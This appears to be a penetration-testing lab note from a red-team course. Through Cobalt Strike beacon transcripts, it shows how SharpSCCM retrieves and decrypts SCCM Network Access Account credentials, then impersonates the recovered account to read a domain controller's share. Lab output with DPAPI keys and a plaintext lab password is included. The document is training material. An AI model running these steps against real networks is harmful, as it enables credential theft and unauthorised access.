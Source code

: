 In a Windows environment, the majority of computers will be domain-joined and will therefore authenticate to SCCM Software Distribution Points (SDPs) (basically just SMB shares) using their own machine account credentials.  However, some computers may not be domain-joined.  Network Access Account credentials (NAAs) are domain credentials intended to be used by these machines to access the SDPs over the network.  They are passed to the machines as part of the SCCM machine policies, which are then encrypted using DPAPI and stored locally.  If they are present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials.

Use `local naa` with `-m wmi` or `-m disk`.

`getuid` to show who running as
```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are DEV\bfarmer
```
command execution failed, requires `escalated privileges`
```powershell
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe local naa -m wmi --no-banner
[+] host called home, sent: 1233204 bytes
[+] received output:

[!] SharpSCCM must be run with local administrator privileges to retrieve policy secret blobs
[+] Completed execution in 00:00:00.1578743
```
used `connect localhost 4444` to connect as `SYSTEM`
`getuid` to show access
```powershell
[+] established link to parent beacon: 10.10.123.102
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```
success, retrieved `NetworkAccessUsername` credentials `cyberbotic.io\sccm_svc` - adding to [[Penetration Testing v2/crto_Defender/access_Tracker|access_Tracker]]
```powershell
[12/18 22:22:43] beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
[12/18 22:22:56] [*] Tasked beacon to run .NET program: SharpSCCM.exe local naa -m wmi --no-banner
[12/18 22:22:56] [+] host called home, sent: 1233204 bytes
[12/18 22:22:57] [+] received output:

[+] Connecting to \\127.0.0.1\root\ccm\policy\Machine\ActualConfig

[12/18 22:22:57] [+] received output:

[+] Retrieving network access account blobs via WMI
[+] Retrieving task sequence blobs via WMI
[+] Retrieving collection variable blobs via WMI


[12/18 22:22:57] [+] received output:
[+] Reverting permissions on registry key: SECURITY\Policy\Secrets\DPAPI_SYSTEM\CurrVal\
[+] Reverting permissions on registry key: SECURITY\Policy\PolEKList

[+] Secret: DPAPI_SYSTEM
    full: 8854E5ACFA2DEEED8A5624F1F92E10662AAD856A450271F3B98E6AE2D9960122C3473C979BC8669E
     m/u: 8854E5ACFA2DEEED8A5624F1F92E10662AAD856A / 450271F3B98E6AE2D9960122C3473C979BC8669E

[12/18 22:22:58] [+] received output:

[+] SYSTEM master key cache:
    {02510c3f-79a0-416e-87df-8545bbd0d1cb}:F775686493A0308C19380B57BC8302D5C79E6BE5
    {02f5ff31-55e9-4c47-bd99-9a1c5839b227}:C6E4AEA29EA2C3631F1E49447FBB69C6886608E3
    {5ae1f2f9-ccfb-40dc-ac94-f631b2be2aff}:BBC5C38D3897BA575615BF802D3BA898AA2B257D
    {5de0381f-96bb-4037-8edc-084d9a52a118}:254047B715BA620257F424CF408256CDF94A5AD7
    {64742d69-55f4-43ba-819e-2558f8531a45}:1CDDD0947BB10D8D1C26877BD59AE71822796C9D
    {dad2a38e-5a47-4110-89c8-29c63a349728}:F679462A9D6CB3CA93B38FA9B4D192A27C88261A
    {9a7dc88b-4f53-457b-b906-b5fb93cf9acf}:6026B14E2ABCF5AEDA0214AACEC25EDE296EEEFF
    {aaa23e6b-bba8-441d-923c-ec242d6690c3}:CFBC842E78EE6713FA5DCB3C9C2D6C6D7C09F06C
    {edd9d13b-33c8-4e75-9930-342a80dd804f}:9F3B0B27A61870B9FDE5438051E180BCC1E1516F
    {f8b07b52-5dfc-48a0-8daa-561dd486c8da}:49F43AA664E8952B90757F3C3AE9F70E732F997C

[+] Decrypting network access account credentials

    NetworkAccessUsername: cyberbotic.io\sccm_svc
    NetworkAccessPassword: Cyberb0tic
```
These credentials should only have read access to the SDP, but are often times over privileged (sometimes even domain/enterprise admins).
# Begin `credential abuse`

`make_token`
```powershell
beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
[+] Impersonated cyberbotic.io\sccm_svc (netonly)
```
read access to `DC-1`
```powershell
beacon> ls \\dc-1.cyberbotic.io\c$
[*] Listing: \\dc-1.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:26:54   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 09:07:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/26/2023 09:13:26   ProgramData
          dir     08/15/2022 15:07:48   Recovery
          dir     08/24/2022 11:05:32   Shares
          dir     09/26/2023 14:28:24   System Volume Information
          dir     08/15/2022 15:09:04   Users
          dir     09/26/2023 09:10:03   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/27/2023 09:28:28   DumpStack.log.tmp
 1kb      fil     09/25/2023 19:07:33   ExtADSch.log
 384mb    fil     09/27/2023 09:28:28   pagefile.sys
```
An alternate approach is to request a copy of the policy directly from SCCM using `get naa`.  This also requires local admin on the local machine to obtain a copy of its SMS Signing and SMS Encryption certificates.